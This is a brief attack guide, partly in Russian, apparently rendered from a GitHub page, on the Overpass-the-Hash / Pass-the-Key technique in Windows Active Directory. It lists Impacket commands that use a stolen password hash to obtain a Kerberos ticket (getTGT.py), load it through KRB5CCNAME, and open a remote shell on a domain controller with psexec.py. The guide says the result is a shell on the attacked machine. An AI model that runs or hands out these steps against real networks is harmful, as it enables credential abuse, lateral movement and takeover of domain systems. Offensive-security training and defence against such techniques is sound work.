 # **Overpass The Hash/Pass The Key (PTK)**

**Overpass The Hash/Pass The Key (PTK) attack guide**

**Инструкция:**

- Используем ранее полученный хэш пароля.

`# python3 getTGT.py <domain.net>/<username> -hashes :<hash>`

- Получаем удаленный доступ к консоли атакуемой машины.

`# export KRB5CCNAME = <ccache_file>`

`# python3 psexec.py <domain.net>/<username>@<ip_of_dc>`


**Результат:**

Шелл на атакуемой машине.
